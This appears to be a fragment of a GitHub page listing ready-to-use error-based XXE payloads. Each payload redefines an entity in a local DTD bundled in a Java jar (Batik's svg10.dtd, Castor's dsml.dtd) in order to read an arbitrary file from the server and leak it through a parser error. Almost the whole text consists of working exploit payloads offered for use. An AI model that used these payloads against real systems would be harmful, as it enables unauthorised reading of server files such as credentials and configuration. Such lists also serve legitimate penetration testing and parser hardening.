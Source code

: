 ```
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/xmlgraphics/batik-svg-dom/1.7/batik-svg-dom-1.7.jar!/org/apache/batik/dom/svg/resources/svg10.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/xmlgraphics/batik-svg-dom/1.7/batik-svg-dom-1.7.jar!/org/apache/batik/dom/svg/resources/svg10.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/codehaus/castor/castor-xml/1.3.3/castor-xml-1.3.3.jar!/org/exolab/castor/dsml/schema/dsml.dtd`

**Injectable entity:** `%distinguished-name`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/codehaus/castor/castor-xml/1.3.3/castor-xml-1.3.3.jar!/org/exolab/castor/dsml/schema/dsml.dtd">

    <!ENTITY % distinguished-name '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
